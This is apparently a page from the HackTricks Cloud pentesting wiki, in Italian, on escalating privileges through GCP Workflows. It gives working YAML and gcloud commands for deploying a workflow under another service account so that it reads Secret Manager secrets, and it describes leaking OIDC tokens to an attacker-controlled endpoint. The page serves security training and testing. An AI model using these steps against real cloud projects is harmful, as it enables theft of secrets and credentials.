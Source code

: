 # GCP - Workflows Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Workflows

Informazioni di base:

{% content-ref url="../gcp-services/gcp-workflows-enum.md" %}
[gcp-workflows-enum.md](../gcp-services/gcp-workflows-enum.md)
{% endcontent-ref %}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

Per quanto ne so, non è possibile ottenere una shell con accesso all'endpoint dei metadati contenente le credenziali del SA attaccato a un Workflow. Tuttavia, è possibile abusare dei permessi del SA aggiungendo le azioni da eseguire all'interno del Workflow.

È possibile trovare la documentazione dei connettori. Ad esempio, questa è la [**pagina del connettore Secretmanager**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)**.** Nella barra laterale è possibile trovare diversi altri connettori.

E qui puoi trovare un esempio di un connettore che stampa un segreto:
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id
result: str_secret
- returnOutput:
return: '${str_secret}'
```
Aggiornamento dalla CLI:
```bash
gcloud workflows deploy <workflow-name> \
--service-account=email@SA \
--source=/path/to/config.yaml \
--location us-central1
```
Se ricevi un errore come `ERROR: (gcloud.workflows.deploy) FAILED_PRECONDITION: Workflows service agent does not exist`, **aspetta un minuto e riprova**.

Se non hai accesso web, è possibile attivare e vedere l'esecuzione di un Workflow con:

{% code overflow="wrap" %}
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
{% endcode %}

{% hint style="danger" %}
Puoi anche controllare l'output delle esecuzioni precedenti per cercare informazioni sensibili
{% endhint %}

Nota che anche se ricevi un errore come `PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...` perché non hai quel permesso, il workflow è stato generato.

### Leak del token OIDC (e OAuth?)

Secondo [**la documentazione**](https://cloud.google.com/workflows/docs/authenticate-from-workflow) è possibile utilizzare passaggi del workflow che invieranno una richiesta HTTP con il token OAuth o OIDC. Tuttavia, proprio come nel caso di [Cloud Scheduler](gcp-cloudscheduler-privesc.md), la richiesta HTTP con il token Oauth deve essere destinata all'host `.googleapis.com`.

{% hint style="danger" %}
Pertanto, è **possibile leakare il token OIDC indicando un endpoint HTTP** controllato dall'utente, ma per leakare il **token OAuth** avresti **bisogno di un bypass** per quella protezione. Tuttavia, sei ancora in grado di **contattare qualsiasi API GCP per eseguire azioni per conto del SA** utilizzando sia connettori che richieste HTTP con il token OAuth.
{% endhint %}

#### Oauth

{% code overflow="wrap" %}
```yaml
- step_A:
call: http.post
args:
url: https://compute.googleapis.com/compute/v1/projects/myproject1234/zones/us-central1-b/instances/myvm001/stop
auth:
type: OAuth2
scopes: OAUTH_SCOPE
```
{% endcode %}

#### OIDC
```yaml
- step_A:
call: http.get
args:
url: https://us-central1-project.cloudfunctions.net/functionA
query:
firstNumber: 4
secondNumber: 6
operation: sum
auth:
type: OIDC
audience: OIDC_AUDIENCE
```
### `workflows.workflows.update` ...

Con questo permesso, invece di `workflows.workflows.create`, è possibile aggiornare un workflow già esistente e eseguire gli stessi attacchi.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
